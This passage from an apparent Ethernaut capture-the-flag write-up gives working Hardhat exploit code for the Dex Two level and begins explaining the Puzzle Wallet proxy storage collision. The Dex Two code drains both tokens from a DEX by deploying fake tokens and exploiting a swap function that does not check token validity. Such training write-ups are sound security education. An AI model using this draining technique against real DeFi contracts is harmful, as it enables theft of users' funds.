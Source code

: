 ```js
  // console.log("Dex token2 =", token2Remaining);
  await challenge.swap(token2, token1, token2Remaining);
  expect(await submitLevel(await challenge.getAddress())).to.equal(true);
});

```

### 23. Dex Two

This challenge is very similar to the previous one, with the key difference being the need to drain **both** tokens from the DEX. In the `swap()` function, there's no longer a check for token validity. This allows us to deploy our own tokens and swap both `token1` and `token2` out of the DEX.

```js
it("Solves 23-DexTwo", async function () {
  // ...
  // Build two dummy tokens to swap for the 2 tokens we really want.
  const factory = await ethers.getContractFactory("DexTwoAttackerToken");
  const attackerToken1 = await factory.deploy("name", "symbol", 1000000000);
  await attackerToken1.waitForDeployment();
  const attackerToken1Address = await attackerToken1.getAddress();
  const attackerToken2 = await factory.deploy("name2", "symbol2", 1000000000);
  await attackerToken2.waitForDeployment();
  const attackerToken2Address = await attackerToken2.getAddress();

  const token1Address = await challenge.token1();
  const token2Address = await challenge.token2();

  // Approve dex to spend all our tokens.
  await challenge.approve(challengeAddress, 1000000);
  await attackerToken1.approve(challengeAddress, 1000000);
  await attackerToken2.approve(challengeAddress, 1000000);

  // Drain token1
  await attackerToken1.transfer(challengeAddress, 100);
  await challenge.swap(attackerToken1Address, token1Address, 100);

  // Drain token2
  await attackerToken2.transfer(challengeAddress, 100);
  await challenge.swap(attackerToken2Address, token2Address, 100);

  expect(await submitLevel(await challenge.getAddress())).to.equal(true);
});

```

### 24. Puzzle Wallet

I think this is the hardest challenge in Ethernaut. It requires an understanding of proxy patterns and the workings of `delegatecall()`. The primary problem with this contract lies in the data storage collision between the proxy and implementation contracts. Specifically, `pendingAdmin/owner` share slot 0, while `admin/maxBalance` share slot 1.
